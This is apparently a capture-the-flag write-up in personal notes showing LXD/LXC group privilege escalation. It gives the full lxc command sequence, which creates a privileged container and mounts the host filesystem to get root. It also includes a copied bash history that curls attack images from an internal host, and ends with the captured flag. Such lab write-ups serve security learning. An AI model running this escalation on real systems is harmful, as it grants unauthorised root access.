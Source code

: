 ##### /usr/bin/lxc
- linpeas results showed someone elses privesc
![[Pasted image 20240617151644.png]]
##### In process list
![[Pasted image 20240617152046.png]]
##### Googling lxc 
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation
- comes up with a hacktricks link where it shows you the process of privilege escalating with `/usr/bin/lxc` on the box.
```bash
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine

# Check the image is there
lxc image list

# Create the container
lxc init alpine privesc -c security.privileged=true

# List containers
lxc list

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
Finally you can execute the container and get root.
```bash
lxc start privesc
lxc exec privesc /bin/sh
[email protected]:~# cd /mnt/root #Here is where the filesystem is mounted
```

##### Bash history
- bash history showed someone already abusing the `lxc` binary so I just executed
```bash
curl http://172.16.0.21:8080/incus.tar.xz -o incus.tar.xz                                                                                                                                                   
curl http://172.16.0.21:8080/rootfs.squashfs -o rootfs.squashfs                                                                                                                                             
ls                                                                                                                                                                                                          
lxc image impiort incus.tar.xz rootfs.squashfs --alias alpine                                                                                                                                               
lxd image import incus.tar.xz rootfs.squashfs --alias alpine
ls
distrobuilder
ls
lxc image import incus.tar.xz rootfs.squashfs alias alpine
lxc image import incus.tar.xz rootfs.squashfs --alias alpine
lxc image list
lxc init alpine privesc -c security.privileged=true 
lxc list
lxc storage create mypool dir
lxc init alpine privesc -c security.privileged=true
lxd init
lxc init images:alpine/3.12 privesc -c security.privileged=true -s mypool
lxc list
lxc init images:alpine/3.12 privesc -c security.privileged=true -s rootmwe
lxc init images:alpine/3.12 privesc -c security.privileged=true -s rootme
ls
lxc image import incus.tar.xz rootfs.squashfs --alias alpine
lxc image list
lxc init alpine privesc -c security.privileged=true -s rootme
lxc start privesc
lxc exec privesc /bin/bash
ls
lxc list
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
lxc exec privesc /bin/sh
ls
exit
ls -al
cat .bash
cat .bash_history 

```

##### Privilege Escalation
- executed the `lxc` binary as shown on hacktricks and got placed into a container shell
![[Pasted image 20240617152434.png]]
- ran `uname -a` and saw that we are the name of the container
![[Pasted image 20240617152835.png]]
- on the hacktricks page saw that we should be able to mount to root drive
![[Pasted image 20240617152933.png]]
- cd'd to `/mnt/root/root` and pulled the flag
![[Pasted image 20240617153120.png]]
```bash
/mnt/root/root # ^[[44;18Rcat flag.txt
cat flag.txt
ALCHEMY{whA7_HaV3_1_D0N3?_F0R91V3_91V3_l0RD}
```